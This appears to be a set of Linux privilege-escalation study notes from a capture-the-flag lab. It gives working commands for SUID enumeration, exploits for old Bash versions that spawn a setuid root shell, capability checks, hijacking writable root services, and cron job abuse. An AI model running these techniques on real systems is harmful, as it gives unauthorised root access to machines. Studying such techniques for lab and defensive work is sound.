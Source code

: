     ```
    

### **SUID Enumeration**

- Find SUID binaries:
    
    ```bash
    bashCopy code
    find / -perm -u=s -type f 2>/dev/null
    
    ```
    
- Check for binary versions and look for exploits or shared object injection.

## **Exploiting Vulnerabilities**

### **Bash Version < 4.2-048**

```bash
/bin/bash --version ( < 4.2-048)
function "that absolute path" { /bin/bash -p; }
export -f "that absolute path"
call the suid binary ( for doubts THM linprivesc tasks)
```

### **Bash Version < 4.4**

```bash
bash --version ( < 4.4)
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' "that absolute path"
/tmp/rootbash -p
```

### **Capabilities**

```bash
getcap -r / 2>/dev/null
# Example: Granting read/search capability to tar
tar cf file.tar "path we want"
```

### **Service Exploits**

- Find a service run by root.
- Replace the executable if it's writable with a payload or **`chmod +s /bin/bash`**.
- If the directory is owned by the user, replacing the file is possible.

### **Cron Jobs**

```bash
cat /etc/crontab
grep "CRON" /var/log/syslog
# Modify cron jobs or replace scripts to execute privileged commands.
```
